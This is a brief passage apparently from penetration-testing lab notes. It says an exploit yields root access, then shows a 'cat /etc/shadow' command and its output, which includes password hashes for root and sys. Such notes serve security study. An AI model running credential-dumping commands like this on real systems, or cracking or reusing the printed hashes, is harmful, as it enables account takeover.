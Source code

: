 <figure><img src="../../../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

* 📌 This exploit gives back direct `root` access.

```bash
# Dump hashes
cat /etc/shadow
```

```bash
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::                                                                                                                                  
daemon:*:14684:0:99999:7:::                                                                                                                                                                 
bin:*:14684:0:99999:7:::                                                                                                                                                                    
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::                                                                                                                                   
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
```